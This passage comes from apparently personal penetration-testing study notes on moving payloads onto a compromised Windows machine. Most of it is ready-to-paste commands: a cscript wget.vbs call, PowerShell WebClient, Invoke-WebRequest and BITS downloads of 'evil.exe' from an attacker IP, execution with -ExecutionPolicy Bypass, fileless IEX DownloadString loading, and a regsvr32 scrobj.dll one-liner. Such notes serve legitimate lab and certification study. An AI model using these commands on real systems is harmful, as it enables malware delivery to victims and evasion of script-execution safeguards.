 We would then copy/paste these commands into the compromised comp's terminal and run the **wget.vbs** script:  
  
Run w/ **cscript**:  
```powershell
cscript wget.vbs http://attacker_ip/evil.exe evil.exe
```


OR  


Ex **wget.ps1.txt**:  
```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1  
echo $file = "new-exploit.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Again, we'd copy/paste these commands into the compromised comp's terminal and run the resulting **wget.ps1** script:  
  
For proper running:  
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
.
- **-ExecutionPolicy Bypass** - Bypasses the current ExecutionPolicy  
	- Safety feature that controls the conditions under which PS loads configuration files and runs scripts.  
		- Feature used to specifically prevent running of malicious scripts  
- **-NoLogo** - Hides PS's logo banner  
- **-NonInteractive** - Suppress interactive PS prompt  
- **-NoProfile** - Prevent PS loading the default profile.  
- **-File** - Specifiy the script  
  
  
One-Liner version:  
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')

OR

powershell.exe Invoke-Webrequest -URI http://10.11.0.4/evil.exe -OutFile "new-exploit.exe"


OR

powershell.exe Start-BitsTransfer -Source http://10.11.0.4/evil.exe -Destination "new-exploit.exe"
```


Now: To execute malicious binary w/o saving the file to disk, add the **IEX** cmdlet & use **DownloadString**:  
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')


OR


regsvr32.exe /s /n /u /i:http://10.11.0.4/evil.exe scrobj.dll
```
